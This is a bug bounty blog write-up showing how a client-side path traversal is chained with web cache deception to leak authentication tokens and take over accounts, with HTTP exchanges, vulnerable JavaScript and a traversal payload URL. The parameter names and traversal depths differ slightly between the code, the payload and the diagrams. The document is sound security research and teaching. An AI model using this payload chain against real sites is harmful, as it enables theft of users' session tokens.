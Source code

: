 ```yaml
---
title: "Cache Deception + CSPT: Turning Non Impactful Findings into Account Takeover"
keywords: "cache deception, cspt, client-side path traversal, account takeover, bug bounty, web security, vulnerability chaining, security research"
date: 2025-08-18
lastmod: 2025-08-18
categories: [Security, Bug-Bounty, Web-Security]
tags: [cspt, cache-deception, account-takeover, web-security, bug-bounty, client-side-path-traversal, vulnerability-chaining]
toc: true
math: false
mermaid: true
---
```


Recently, while auditing the main application of a private bug bounty program, I discovered a **Client-Side Path Traversal (CSPT)** and a **Cache Deception** vulnerability. Individually, these issues were unexploitable and had no real impact. However, when chained together, I was able to demonstrate **Account Takeover**.

Before diving into the details, if you’re not familiar with these concepts, I highly recommend checking out:

**For CSPT:**
- [Matan Ber's excellent introduction to CSPT](https://matanber.com/blog/cspt-levels/){:target="_blank"} – a thorough explanation of the concept from the basics.
- [My CSPT talk in Spanish](https://www.youtube.com/watch?v=TAl1UIdZbK8){:target="_blank"} – if you speak Spanish, I cover the fundamentals and some practical scenarios here.
- [This great CSPT presentation by Maxence Schmitt](https://www.youtube.com/watch?v=O1ZN_OCfNzg&pp=ygUbIGNsaWVudCBzaWRlIHBhdGggdHJhdmVyc2Fs){:target="_blank"}

**For Cache Deception:**
- [https://portswigger.net/web-security/web-cache-deception](https://portswigger.net/web-security/web-cache-deception){:target="_blank"}


## **Cache Deception**

During my initial reconnaissance, I found the following request:

```http
GET /v1/token HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br


```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: no-cache, no-store, must-revalidate
X-Cache: Miss from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As the endpoint was returning sensitive data, I decided to test if it was vulnerable to **Cache Deception** by adding a `.css` extension:


```http
GET /v1/token.css HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br


```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: max-age=86400, public
X-Cache: Hit from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As you can see, the response was identical and was being cached. This showed that the endpoint was indeed vulnerable to Cache Deception.

However, it required the `X-Auth-Token` header, which browsers cannot send automatically when users visit a URL directly. This made the Cache Deception vulnerability unexploitable, as an attacker could not force a victim’s browser to include his authentication token when making the request.


## **Client-Side Path Traversal**

While reviewing the frontend code, I found the following JavaScript:


```javascript
const urlParams = new URLSearchParams(window.location.search);
const userId = urlParams.get('userId');

const apiUrl = `https://api.example.com/v1/users/info/${userId}`;

fetch(apiUrl, {
  method: 'GET',
  headers: {
    'X-Auth-Token': authToken
  }
})
.then(response => response.json())
.then(data => {
  displayUSERData(data);
})
.catch(err => console.error("Error loading user info:", err));
```

This shows a classic example of a **Client-Side Path Traversal** vulnerability. The `userId` parameter was being directly embedded into the API URL without any validation against path traversal.

<br>

```mermaid
sequenceDiagram
    participant U as USER
    participant C as BROWSER
    participant A as API

    U->>C: Visits<br/>https://example.com/profile?userId=104
    
    C->>A: GET /v1/users/info/104<br/>X-Auth-Token: [token]
    Note over C,A: Authenticated request
    
    A->>C: HTTP/1.1 200 OK<br/>Content-Type: application/json<br/>{"username":"Juan","...}
    Note over A,C: USER data returned
    
    Note over C: Display: "Welcome Juan"
```

<br>

Therefore, I could control the path of an **authenticated** request to the API. But what could I do with this control? I wasn't able to find any open redirect, nor could I manipulate the body of any API response. On its own, this CSPT was not exploitable.

## **The Chain**

At that point, I realized: what if I combined both findings?

The **CSPT** vulnerability allows me to control the path of an authenticated API request that includes the `X-Auth-Token` header, while the **Cache Deception** issue requires that header to be present in order to cache sensitive data.

In other words, **what if I used the CSPT to make an authenticated request directly to the cacheable endpoint?**

To test this, I crafted a **CSPT** payload that would traverse to the cacheable endpoint:

```
https://example.com/user?id=../../../v1/token.css
```

When a user visits this URL, the JavaScript constructs:
```
https://api.example.com/v1/users/info/../../../v1/token.css
```

Which resolves to:
```
https://api.example.com/v1/token.css
```

The key insight is that this request includes the user's **`X-Auth-Token`** header. So, when the CSPT triggers, it sends an authenticated request to the cacheable endpoint.

The API returns the sensitive token data, and the CDN caches the response.

Now, when anyone (including unauthenticated users) visits `https://api.example.com/v1/token.css`, the CDN serves the victim’s cached sensitive data, which includes their token, leading to account takeover.

<br>

```mermaid
sequenceDiagram
    participant A as ATTACKER
    participant C as VICTIM'S BROWSER
    participant CA as CDN
    participant API as API

    A->>C: "Click Here"
    Note over A,C: https://example.com/profile?id=<br/>../../token.css
    
    C->>CA: GET /v1/token.css<br/>X-Auth-Token: ...
    Note over C,CA: Authenticated request <br/>to cacheable endpoint
    
    CA->>API: GET /v1/token.css<br/>X-Auth-Token: ...
    
    API->>CA: {"token":"..."}
    Note over API,CA: Sensitive token data
    
    CA->>C: {"token":"..."}
    Note over CA,C: Cached sensitive token
    
    A->>CA: GET /v1/token.css
    Note over A,CA: Direct cache access<br/>(no auth required)
    
    CA->>A: {"token":"..."}
    Note over CA,A: Attacker retrieves victim's cached token
```

<br>

## **Conclusion**

I hope the attack chain was informative and provided new insights into how minor vulnerabilities, when combined, can create significant security risks, showing why it’s crucial to think beyond individual security mechanisms and never ignore seemingly unexploitable findings. In many cases, the most dangerous attacks result from chaining multiple vulnerabilities that appear harmless in isolation.

If you have any questions about the attack methodology, technical details, or want to discuss similar findings, feel free to reach out.